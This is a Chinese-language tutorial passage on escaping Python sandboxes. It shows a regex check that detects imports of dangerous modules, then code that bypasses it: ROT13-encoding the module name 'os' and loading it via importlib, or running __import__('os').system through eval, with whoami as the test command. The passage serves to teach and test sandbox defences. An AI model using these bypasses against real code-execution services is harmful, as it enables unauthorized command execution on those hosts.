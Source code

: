 



### 沙箱逃逸

https://xz.aliyun.com/t/52

Python的沙箱逃逸是一些OJ,Quantor网站渗透测试的重要渠道

防御者可以挂着执行以下代码查找是否导入了危险的模块

~~~python
import re
code = open('code.py').read()
pattern  = re.compile('import\s+(os|commands|subprocess|sys)')
match = re.search(pattern,code)
if match:
    print "forbidden module import detected"
    raise Exception
~~~

要执行shell命令,必须引入 os/commands/subprocess这几个包

尝试绕过：

###### 1）编码绕过import危险模块正则匹配

尝试利用rot 13编码绕过，在线网站https://www.jisuan.mobi/WKE.html

这里任意编码看你选择，如果我们选择使用rot 13，那么可以自己编写rot 13解密函数，或者在python3引入codecs模块实现

~~~python
import codecs
import importlib

# 对 ROT13 编码的字符串进行解码
decoded_message = codecs.decode("bf", 'rot_13')
f3ck = importlib.import_module(decoded_message)
print(f3ck.system('whoami'))
~~~

如果觉得system也被拦截，也可以替换，whoami执行命令也可以编码处理

![imagea8077ae40d55ad63.png](https://cdnjson.com/images/2023/05/25/imagea8077ae40d55ad63.png)

~~~python
print(eval("__import__('os').system('whoami')", {}))
~~~





转换代码

~~~python
import codecs
# 对字符串进行 ROT13 编码
message = "hello, world!"
encoded_message = codecs.encode(message, 'rot_13')
print(encoded_message)  # 输出："uryyb, jbeyq!"

# 对 ROT13 编码的字符串进行解码
decoded_message = codecs.decode(encoded_message, 'rot_13')
print(decoded_message)  # 输出："hello, world!"
~~~
